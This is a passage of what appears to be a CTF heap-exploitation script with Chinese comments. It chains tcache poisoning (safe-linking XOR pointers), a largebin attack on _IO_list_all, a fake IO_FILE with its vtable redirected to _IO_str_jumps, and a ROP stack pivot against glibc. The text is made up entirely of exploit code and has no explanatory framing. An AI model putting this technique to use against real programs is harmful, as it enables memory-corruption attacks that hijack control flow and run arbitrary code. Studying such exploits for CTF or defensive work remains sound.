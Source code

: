 ```plain

    add(0)
    # 第一个 large chunk 入链
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x80)>>12)^((heap_addr+0x320))
    edit(1, p64(poc))
    add(0)
    add(1)
    target = _IO_list_all - 0x20
    # 布置好 largebin attack 使用的 Poc
    edit(1, p64(heap_addr+0x300)+p64(target))
    delete(0)
    delete(2)

    add(0)
    # 第二个 large chunk 入链，写入 _IO_list_all
    add(0)
    edit(1, p64(heap_addr+0x300)+p64(heap_addr+0x300))
    edit(2, p64(0)+p64(0))


    add(0)
    add(1)
    delete(1)
    # heap_addr + 0xe0 -----> mov rsp, [rdx + 0xa0]
    # heap_addr + 0xe8 -----> mov rcx, [rdx + 0xa8]; push rcx
    # 这里我们就可以放入第一条 ROP 指令
    edit(1, p64(heap_addr+0x1c0)+p64(pop_rdi))
    delete(0)
    poc = ((heap_addr+0xe0)>>12) ^ (heap_addr+0x870)
    edit(0, p64(poc))
    add(0)
    add(1)
    # 修改 FAKE IO_FILE 的 vtable 为 _IO_str_jumps
    edit(1, p64(0)+p64(_IO_str_jumps))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x100)>>12) ^ (heap_addr+0x7d0)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE，写入 _IO_buf_base
    edit(1, p64(0) + p64(start))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x120)>>12) ^ (heap_addr+0x7f0)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

```